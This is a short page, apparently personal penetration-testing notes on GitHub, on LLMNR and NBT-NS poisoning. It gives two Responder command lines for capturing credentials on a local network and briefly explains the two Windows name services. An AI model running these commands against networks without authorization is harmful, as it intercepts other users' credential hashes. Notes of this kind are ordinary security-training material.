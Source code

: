 # LLMNR-Poisoning

```
sudo responder -I eth0 -dwv
sudo responder -I eth0 -W -F
```

Link Local Multicast Name Resolution (LLMNR) and NetBIOS Name Service (NBT-NS) LLMNR and NetBIOS are two name resolution services built in to Windows to help systems find address names from other devices on the network.

![image](https://user-images.githubusercontent.com/78603128/225497081-f5b7e1d5-beaf-491e-a349-437659e86613.png)
